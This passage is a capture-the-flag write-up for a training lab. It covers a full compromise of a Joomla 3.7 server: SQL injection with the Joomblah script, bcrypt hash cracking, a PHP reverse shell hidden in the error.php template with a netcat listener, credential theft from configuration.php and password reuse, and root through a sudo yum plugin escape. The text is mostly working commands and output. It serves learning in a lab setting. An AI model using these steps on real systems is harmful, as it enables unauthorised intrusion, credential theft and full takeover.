[++] Name: com_content
Location : http://10.10.96.66/components/com_content/
Directory listing is enabled : http://10.10.96.66/components/com_content/


[+] Enumeration component (com_contenthistory)
[++] Name: com_contenthistory
Location : http://10.10.96.66/components/com_contenthistory/
Directory listing is enabled : http://10.10.96.66/components/com_contenthistory/


[+] Enumeration component (com_fields) 
[++] Name: com_fields
Location : http://10.10.96.66/components/com_fields/
Directory listing is enabled : http://10.10.96.66/components/com_fields/


[+] Enumeration component (com_finder) 
[++] Name: com_finder
Location : http://10.10.96.66/components/com_finder/
Directory listing is enabled : http://10.10.96.66/components/com_finder/


[+] Enumeration component (com_mailto) 
[++] Name: com_mailto
Location : http://10.10.96.66/components/com_mailto/
Directory listing is enabled : http://10.10.96.66/components/com_mailto/
Installed version : 3.1


[+] Enumeration component (com_media)
[++] Name: com_media
Location : http://10.10.96.66/components/com_media/
Directory listing is enabled : http://10.10.96.66/components/com_media/


[+] Enumeration component (com_newsfeeds)
[++] Name: com_newsfeeds
Location : http://10.10.96.66/components/com_newsfeeds/
Directory listing is enabled : http://10.10.96.66/components/com_newsfeeds/


[+] Enumeration component (com_search) 
[++] Name: com_search
Location : http://10.10.96.66/components/com_search/
Directory listing is enabled : http://10.10.96.66/components/com_search/


[+] Enumeration component (com_users)
[++] Name: com_users
Location : http://10.10.96.66/components/com_users/
Directory listing is enabled : http://10.10.96.66/components/com_users/


[+] Enumeration component (com_wrapper)
[++] Name: com_wrapper
Location : http://10.10.96.66/components/com_wrapper/
Directory listing is enabled : http://10.10.96.66/components/com_wrapper/
Installed version : 3.1


Your Report : reports/10.10.96.66/
````

## Looking for vulnerabilities we can exploit

Looking up on [exploit-db](https://www.exploit-db.com/) reveals an incredible amount of results with only the keyword `joomla`. So we definitively need to add the version number `3.7` in our search to filter out what is not relevant. Which then revealed an interesting [Joomla! 3.7 SQL Injection](https://www.exploit-db.com/exploits/44227) vulnerability. However, this report is very unclear. We do not have any `CVE` reference. There are no real usable comments or a `HOWTO` into this `PHP` code. We have only that `PHP` script, and I do not like that to run some random code I do not understand. Analyzing the code can take a lot of effort and time. Time is money like they say. So we have to do further researches because in my opinion, this a very bad and incomplete report.

So we have to dig deeper. We know now there is a `SQL Injection` vulnerability with `Joomla 3.7`, so a Google search with these 4 keywords revealed more information, and we can find for example the website [cvedetails CVE-2017-8917](https://www.cvedetails.com/cve/CVE-2017-8917/) with even more information and links. As we have some CVE-2017-8917 reference by now, we can eventually dig even deeper and do a Google search on this CVE-2017-8917 keyword.

There are different possibilities to make use of this exploit. It's all up to you to take the one you want, and which actually also work. I like the Python programming language, and like this CTF suggested looking to a Python script instead of using the `SQLMap` tool. So I took a random one that showed up in my previous research the [Joomblah](https://github.com/XiphosResearch/exploits/tree/master/Joomblah).

## Exploiting Joomla with the Joomblah Python script

This [Joomblah](https://github.com/XiphosResearch/exploits/tree/master/Joomblah) `Python` script seems fairly simple. So let's make use of it. For this we first need to grab the raw source code of it and make it executable on our host machine.

````commandline
$ wget https://raw.githubusercontent.com/XiphosResearch/exploits/master/Joomblah/joomblah.py
$ chmod +x joomblah.py
````

Running the script and we will get the username and password hash.

````commandline
$ ./joomblah.py http://10.10.96.66/
                                                                                                                    
    .---.    .-'''-.        .-'''-.                                                           
    |   |   '   _    \     '   _    \                            .---.                        
    '---' /   /` '.   \  /   /` '.   \  __  __   ___   /|        |   |            .           
    .---..   |     \  ' .   |     \  ' |  |/  `.'   `. ||        |   |          .'|           
    |   ||   '      |  '|   '      |  '|   .-.  .-.   '||        |   |         <  |           
    |   |\    \     / / \    \     / / |  |  |  |  |  |||  __    |   |    __    | |           
    |   | `.   ` ..' /   `.   ` ..' /  |  |  |  |  |  |||/'__ '. |   | .:--.'.  | | .'''-.    
    |   |    '-...-'`       '-...-'`   |  |  |  |  |  ||:/`  '. '|   |/ |   \ | | |/.'''. \   
    |   |                              |  |  |  |  |  |||     | ||   |`" __ | | |  /    | |   
    |   |                              |__|  |__|  |__|||\    / '|   | .'.''| | | |     | |   
 __.'   '                                              |/'..' / '---'/ /   | |_| |     | |   
|      '                                               '  `'-'`       \ \._,\ '/| '.    | '.  
|____.'                                                                `--'  `" '---'   '---' 

 [-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$REDACTED', '', '']
  -  Extracting sessions from fb9j5_session
````

## Cracking the hash 

Now saving this hash with a text editor, not echoing this from the cli, as this will not work as expected. Or if we escape the dollar signs. Life is already complicated enough, so let's make this simple. Then we need to figure out which type of hash this is. Looking up with the online [Hash Analyser](https://www.tunnelsup.com/hash-analyzer/) did not help. So searching manually in the [online hashcat documentation](https://hashcat.net/wiki/doku.php?id=hashcat), by doing a search on `$2` reveals this is a `bcrypt blowfish` hash. The tool `hashid` also confirmed this. The online [CrackStation](https://crackstation.net/) was not able to help this time by cracking this of us. So we have to do the hard work ourselves.

Ran `hashcat` on my Windows machine with `GPU` support (`Nvidia GeForce RTX 2080`) and after `40 seconds`, it cracked the password. I like Windows and gamers gear :-P

````commandline
$ hashcat -m 3200 hash_jonah.txt /usr/share/wordlists/rockyou.txt
````

Which resulted in the following:

````commandline
$2y$10$REDACTED:REDACTED

Session..........: hashcat
Status...........: Cracked
Hash.Name........: bcrypt $2*$, Blowfish (Unix)
Hash.Target......: $2y$10$REDACTED
Time.Started.....: Sat Sep 04 15:33:39 2021 (40 secs)
Time.Estimated...: Sat Sep 04 15:34:19 2021 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:     1176 H/s (9.36ms) @ Accel:2 Loops:8 Thr:16 Vec:1
Recovered........: 1/1 (100.00%) Digests
Progress.........: 47104/14344385 (0.33%)
Rejected.........: 0/47104 (0.00%)
Restore.Point....: 45632/14344385 (0.32%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:1016-1024
Candidate.Engine.: Device Generator
Candidates.#1....: xenia -> liverpool05
Hardware.Mon.#1..: Temp: 48c Fan: 32% Util: 96% Core:1904MHz Mem:6793MHz Bus:16

Started: Sat Sep 04 15:33:32 2021
Stopped: Sat Sep 04 15:34:21 2021
````

Alternatively, we can use `john` too.

````commandline
john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash_jonah.txt
````

## Installing and using a reverse shell

We can now log into the `Joomla CMS` with the credentials we have. When looking about the user rights this user has, we see it has the `superuser` rights. Which is perfect. This means that we can have full control of this `CMS`.





A lot of `Content Management Systems`, allows superusers do fancy things. Like adding custom `PHP` code. Which sound a bit crazy in fact, because this means that you can try to compromise your own Web host, if you have that. Anyway, let's make use of this.

With `Joomla`, we need to go to the `Templates` section, and we see that  `protostar - Default` is the default template used (see the star). Then select again `Templates` and finally click on `Protostar Details and Files`. There on the left side, we see various `PHP` templates we can customize. The safest and less obvious way is to use the `error.php` template file. Putting our reverse shell in the main `index.php` file could trigger a red flag in real life situations. As it will be then obvious there is something going wrong with the website and the administrator will probably want to look asap to what is going on. So play safe. 











Now we need to paste our reverse shell PHP code in that input field. For this we can use the default and preinstalled reverse web shell located at `/usr/share/webshells/php/php-reverse-shell.php`. Copy & paste the content of that reverse shell before the first line in that `Joomla` input field. I tent to add tons of new empty lines to separate both parts of code. That's easier to clean up later if needed. Then we need to modify the `$ip` and `$port` variables to our needs. I have added the IP for my `tun0` device and chosen to make use of port `4444`. Finally, press the green `Save` button in the top left corner.

We now need to start our `NetCat` listener on the host machine, so we can catch the reverse shell connection.

````commandline
$ nc -nlvp 4444
````

Once our `NetCat` listener running, we can point the web browser to a non-existent page, for example <http://10.10.96.66/index.php/foo>. Which will catch a `404` (not found error) and thus start our reverse shell connection.

````commandline
$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.8.208.30] from (UNKNOWN) [10.10.96.66] 33410
Linux dailybugle 3.10.0-1062.el7.x86_64 #1 SMP Wed Aug 7 18:08:02 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 10:06:51 up  4:05,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: no job control in this shell
sh-4.2$
````

## Stabilizing the shell

Now that we are in the target machine, it is time to stabilize our shell so that we have all nice shell features like shell history, the autocompletion but most important also, our connection will not break if we press `CTRL + C`. I used the classic and popular shell stabilisation method.

````commandline
sh-4.2$ python -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/bash")'
bash-4.2$ export TERM=xterm-256color
export TERM=xterm-256color
bash-4.2$ ^Z
[1]+  Stopped                 nc -nlvp 4444
┌──(itchy㉿scratchy)-[~/Documents/THM/dailybugle]
└─$ stty raw -echo; fg
nc -nlvp 4444

bash-4.2$ 
Display all 1325 possibilities? (y or n)
````

## Grabbing the user flag, a try

We can now grab the user flag. At least trying. But we discover we can not enter the user directory, nor escalate the easy way.

````commandline
bash-4.2$ pwd
/
bash-4.2$ ls /home/
jjameson
bash-4.2$ cd /home/jjameson/
bash: cd: /home/jjameson/: Permission denied
bash-4.2$ whoami
apache
bash-4.2$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for apache:
````

## Horizontal user privilege escalation

So we have to figure out another method. If we remember from our webserver enumeration, we ran a `gobuster` scan and brute forced on file extensions too. Which revealed that there is a `configuration.php` file. That's a configuration file for the `Joomla` Content Management System. Which probably hold valuable information such as database credentials.

````commandline
bash-4.2$ cd /var/www/html/
bash-4.2$ ls
LICENSE.txt    cli                includes   media       tmp
README.txt     components         index.php  modules     web.config.txt
administrator  configuration.php  language   plugins
bin            htaccess.txt       layouts    robots.txt
cache          images             libraries  templates
````

And here is the content of the configuration file.

````commandline
bash-4.2$ cat configuration.php 
<?php
class JConfig {
        public $offline = '0';
        public $offline_message = 'This site is down for maintenance.<br />Please check back again soon.';
        public $display_offline_message = '1';
        public $offline_image = '';
        public $sitename = 'The Daily Bugle';
        public $editor = 'tinymce';
        public $captcha = '0';
        public $list_limit = '20';
        public $access = '1';
        public $debug = '0';
        public $debug_lang = '0';
        public $dbtype = 'mysqli';
        public $host = 'localhost';
        public $user = 'root';
        public $password = 'REDACTED';
        public $db = 'joomla';
        public $dbprefix = 'fb9j5_';
        public $live_site = '';
        public $secret = 'UAMBRWzHO3oFPmVC';
        public $gzip = '0';
        public $error_reporting = 'default';
        public $helpurl = 'https://help.joomla.org/proxy/index.php?keyref=Help{major}{minor}:{keyref}';
        public $ftp_host = '127.0.0.1';
        public $ftp_port = '21';
        public $ftp_user = '';
        public $ftp_pass = '';
        public $ftp_root = '';
        public $ftp_enable = '0';
        public $offset = 'UTC';
        public $mailonline = '1';
        public $mailer = 'mail';
        public $mailfrom = 'jonah@tryhackme.com';
        public $fromname = 'The Daily Bugle';
        public $sendmail = '/usr/sbin/sendmail';
        public $smtpauth = '0';
        public $smtpuser = '';
        public $smtppass = '';
        public $smtphost = 'localhost';
        public $smtpsecure = 'none';
        public $smtpport = '25';
        public $caching = '0';
        public $cache_handler = 'file';
        public $cachetime = '15';
        public $cache_platformprefix = '0';
        public $MetaDesc = 'New York City tabloid newspaper';
        public $MetaKeys = '';
        public $MetaTitle = '1';
        public $MetaAuthor = '1';
        public $MetaVersion = '0';
        public $robots = '';
        public $sef = '1';
        public $sef_rewrite = '0';
        public $sef_suffix = '0';
        public $unicodeslugs = '0';
        public $feed_limit = '10';
        public $feed_email = 'none';
        public $log_path = '/var/www/html/administrator/logs';
        public $tmp_path = '/var/www/html/tmp';
        public $lifetime = '15';
        public $session_handler = 'database';
        public $shared_session = '0';
}bash-4.2$
````

So we have the database credentials of the `root` user. Trying to log in the system with user `root` and this password will not work. Luckily, there is password reuse and that password is actually the same as for the simple user account on the system.

````commandline
bash-4.2$ su root
Password: 
su: Authentication failure
bash-4.2$ su jjameson
Password: 
[jjameson@dailybugle html]$
````

So finally we can grab the `user.txt` flag in the home directory of this user.

````commandline
[jjameson@dailybugle html]$ cd
[jjameson@dailybugle ~]$ ls
user.txt
[jjameson@dailybugle ~]$ cat user.txt 
REDACTED
[jjameson@dailybugle ~]$
````

## Vertical user privilege escalation

At this stage, we need to get more rights and do some vertical privilege escalation. We can make use of [linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) or other Privilege Escalation tools in that sort, but first always look to the basics and try out a few things before pulling out the heavy-duty tools. It is easier and faster to look to `sudo` and `crontab` and other basic things. Here I got it from the first try which saved me time and efforts.

````commandline
[jjameson@dailybugle ~]$ sudo -l
Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
[jjameson@dailybugle ~]$
````

So now we know this user is allowed to run RedHat `yum` package manager as superuser, and this without a password. But anyway, the password we have so far. So we have to take a look on the [GTFOBins](https://gtfobins.github.io/) and see what possibilities we have. Looking there reveals us:

````commandline
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
````

So applying this information and we can grab the `root.txt` flag!

````commandline
[jjameson@dailybugle ~]$ TF=$(mktemp -d)
[jjameson@dailybugle ~]$ cat >$TF/x<<EOF
> [main]
> plugins=1
> pluginpath=$TF
> pluginconfpath=$TF
> EOF
[jjameson@dailybugle ~]$ 
[jjameson@dailybugle ~]$ cat >$TF/y.conf<<EOF
> [main]
> enabled=1
> EOF
[jjameson@dailybugle ~]$ cat >$TF/y.py<<EOF
> import os
> import yum
> from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
> requires_api_version='2.1'
> def init_hook(conduit):
>   os.execl('/bin/sh','/bin/sh')
> EOF
[jjameson@dailybugle ~]$ sudo yum -c $TF/x --enableplugin=y
Loaded plugins: y
No plugin match for: y
sh-4.2# whoami
root
sh-4.2# cat /root/root.txt 
REDACTED
sh-4.2
````

Mission accomplished!

Hopefully you enjoyed as much as I did :-)
